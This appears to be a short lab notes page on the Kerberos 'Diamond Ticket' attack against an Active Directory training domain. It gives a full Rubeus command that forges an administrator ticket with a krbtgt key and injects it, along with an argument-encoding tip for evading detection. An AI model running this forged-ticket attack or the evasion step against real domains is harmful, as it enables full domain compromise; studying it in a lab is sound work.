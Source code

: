 # 💎 Diamond Ticket attack

We can simply use the following Rubeus command to execute the attack. Note that the command needs to be run from an elevated shell (Run as administrator). We take the usual OPSEC care of using Loader and ArgSplit to encode the arguments "diamond"

```
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will spawn a shell, now we can access the DC

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket" %}

